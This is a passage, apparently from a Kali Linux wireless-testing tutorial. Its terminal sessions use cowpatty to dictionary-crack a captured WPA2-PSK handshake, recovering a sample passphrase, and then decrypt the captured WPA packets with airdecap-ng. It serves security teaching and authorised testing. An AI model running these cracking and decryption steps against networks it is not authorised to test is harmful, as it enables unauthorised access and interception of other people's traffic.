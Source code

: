 ```sh

      EAPOL HMAC     : 17 B1 21 22 A3 F4 74 52 B3 8A 4C 51 FD 10 93 59
root@kali:~#
```

Cracking ```WPA2-PSK``` using ```cowpatty```

```sh
root@kali:~# cowpatty -f dictionary.txt -r wpa2-psk-01.cap -s dlink
cowpatty 4.6 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Collected all necessary data to mount crack against WPA2/PSK passphrase.
Starting dictionary attack.  Please be patient.

The PSK is "samplepsk123".

1 passphrases tested in 0.00 seconds:  307.41 passphrases/second
root@kali:~#
```

Decrypting packets using ```airdecap-ng```

```sh
root@kali:~# airdecap-ng -e dlink -p samplepsk123 wpa2-psk-01.cap
Total number of packets read          1035
Total number of WEP data packets         0
Total number of WPA data packets       285
Number of plaintext data packets         0
Number of decrypted WEP  packets         0
Number of corrupted WEP  packets         0
Number of decrypted WPA  packets        19
root@kali:~# ls -la wpa2-psk-01*
-rw-r--r-- 1 root root 97815 Jun  7 14:24 wpa2-psk-01.cap
-rw-r--r-- 1 root root  4727 Jun  7 14:24 wpa2-psk-01.csv
-rw-r--r-- 1 root root  2267 Jun  7 14:24 wpa2-psk-01-dec.cap
-rw-r--r-- 1 root root   587 Jun  7 14:24 wpa2-psk-01.kismet.csv
-rw-r--r-- 1 root root 54263 Jun  7 14:24 wpa2-psk-01.kismet.netxml
root@kali:~# file wpa2-psk-01-dec.cap
wpa2-psk-01-dec.cap: tcpdump capture file (little-endian) - version 2.4 (Ethernet, capture length 65535)
root@kali:~#
```
